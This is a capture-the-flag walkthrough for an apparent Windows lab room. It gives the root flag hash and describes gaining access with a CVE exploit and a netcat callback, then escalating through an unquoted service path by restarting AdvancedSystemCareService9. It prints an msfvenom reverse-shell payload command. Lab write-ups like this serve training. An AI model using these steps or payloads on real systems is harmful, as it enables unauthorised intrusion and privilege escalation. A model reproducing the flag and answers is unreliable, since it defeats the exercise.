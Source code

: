 
What is the root flag? *9af5f314f57607c00fd09803a587db80*

### Access and Escalation Without Metasploit 



Now let's complete the room without the use of Metasploit.

For this we will utilise powershell and winPEAS to enumerate the system and collect the relevant information to escalate to
Answer the questions below

To begin we shall be using the same CVE. However, this time let's use this exploit.

*Note that you will need to have a web server and a netcat listener active at the same time in order for this to work!*


To begin, you will need a netcat static binary on your web server. If you do not have one, you can download it from GitHub!

You will need to run the exploit twice. The first time will pull our netcat binary to the system and the second will execute our payload to gain a callback!
*No answer needed*



Congratulations, we're now onto the system. Now we can pull winPEAS to the system using powershell -c.

Once we run winPeas, we see that it points us towards unquoted paths. We can see that it provides us with the name of the service it is also running.

![](https://i.imgur.com/OyEdJ27.png)

What powershell -c command could we run to manually find out the service name?

*Format is "powershell -c "command here"*
*powershell -c "Get-Service"*

Now let's escalate to Administrator with our new found knowledge.

Generate your payload using msfvenom and pull it to the system using powershell.


Now we can move our payload to the unquoted directory winPEAS alerted us to and restart the service with two commands.

First we need to stop the service which we can do like so;

sc stop AdvancedSystemCareService9

Shortly followed by;

sc start AdvancedSystemCareService9

Once this command runs, you will see you gain a shell as Administrator on our listener! 
(msfvenom -p windows/shell_reverse_tcp LHOST=&lt;IP> LPORT=443 -e x86/shikata_ga_nai -f exe -o Advanced.exe)
*No answer needed*

[[Active Directory Basics(1)]]